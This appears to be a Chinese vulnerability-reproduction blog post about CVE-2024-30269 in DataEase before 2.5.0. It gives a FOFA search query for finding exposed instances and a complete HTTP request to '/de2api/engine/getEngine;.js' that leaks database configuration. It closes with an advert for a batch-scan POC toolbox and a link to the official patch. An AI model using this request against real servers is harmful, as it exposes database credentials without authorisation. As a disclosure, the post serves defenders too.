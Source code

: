 #  DataEase存在数据库配置信息暴露漏洞(CVE-2024-30269) 附POC   
2024-10-17更新  南风漏洞复现文库   2024-10-17 23:33  
  
免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 1. DataEase简介  
  
微信公众号搜索：南风漏洞复现文库 该文章 南风漏洞复现文库 公众号首发  
  
DataEase是一个开源的数据可视化分析工具  
## 2.漏洞描述  
  
DataEase是一个开源的数据可视化分析工具。用于帮助用户快速分析数据并洞察业务趋势，从而实现业务的改进与优化。DataEase 2.5.0之前版本存在安全漏洞。攻击者利用该漏洞通过浏览器访问“/de2api/engine/getEngine;.js”路径，可以看到返回的数据库配置。  
  
CVE编号:CVE-2024-30269  
  
CNNVD编号:CNNVD-202404-938  
  
CNVD编号:  
## 3.影响版本  
  
DataEase 2.5.0之前版本  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsJDm7fvc3baK5Kz6O5SQvVLHNPY3u58Q9cdTwQ1BOolcMz05EO7GUZOm2xOsCyemTLoibDgLvWfp1WRQbz5QeA/640?wx_fmt=png&from=appmsg "null")  
  
DataEase存在数据库配置信息暴露漏洞(CVE-2024-30269)  
## 4.fofa查询语句  
  
body="Dataease"  
## 5.漏洞复现  
  
漏洞链接：http://xx.xx.xx.xx/de2api/engine/getEngine;.js  
  
漏洞数据包：  
```
GET /de2api/engine/getEngine;.js HTTP/1.1
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Host: xx.xx.xx.xx

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3baK5Kz6O5SQvVLHNPY3u58fxaz6h9xj6trWeKX7oOCibC51HicSaQyfVT7TXPicS8CcYKu4ODGwm5Sw/640?wx_fmt=jpeg&from=appmsg "null")  
## 6.POC&EXP  
  
本期漏洞及往期漏洞的批量扫描POC及POC工具箱已经上传知识星球：南风网络安全1: 更新poc批量扫描软件，承诺，一周更新8-14个插件吧，我会优先写使用量比较大程序漏洞。2: 免登录，免费fofa查询。3: 更新其他实用网络安全工具项目。4: 免费指纹识别，持续更新指纹库。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3baK5Kz6O5SQvVLHNPY3u583DpcKqAIlfHs7Qs9MyM11JUnaazibRTnZDatpITeELyCjweicOanYejw/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3baK5Kz6O5SQvVLHNPY3u5811dUY0NymUnX5e885T4bFMYUOpPLj0d8f2RLJKHhF4m4tR3e7D1eNw/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3baK5Kz6O5SQvVLHNPY3u58DIKm5JmeUtrYbrlfhLFXWpfyjQ05iccuAanDvM8S0n1x0bCxs7WB0TQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3baK5Kz6O5SQvVLHNPY3u58Ob2GKKibua0Qk0iccfXjlSHvmOQBH9Mo7rywatiakkrvXSapRlsb5WdYQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3baK5Kz6O5SQvVLHNPY3u58nCjXJraCuuDHKlsVmFHhVpXZPAZ2xAEhL3uwOBXhH9X8pz1MASOrOg/640?wx_fmt=jpeg&from=appmsg "null")  
## 7.整改意见  
  
官方补丁https://github.com/dataease/dataease/releases/tag/v2.5.0  
## 8.往期回顾  
  
  
[同望OA tooneAssistantAttachement.jsp接口存在任意文件读取漏洞 附POC](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247487550&idx=1&sn=9cd50f073c26466c930c308d11b86116&chksm=974b9d39a03c142fbc64a72a3075a44fd644d2b2db62a2861e0026fb5d0982f5fa9a2ade6c1c&scene=21#wechat_redirect)  
  
  

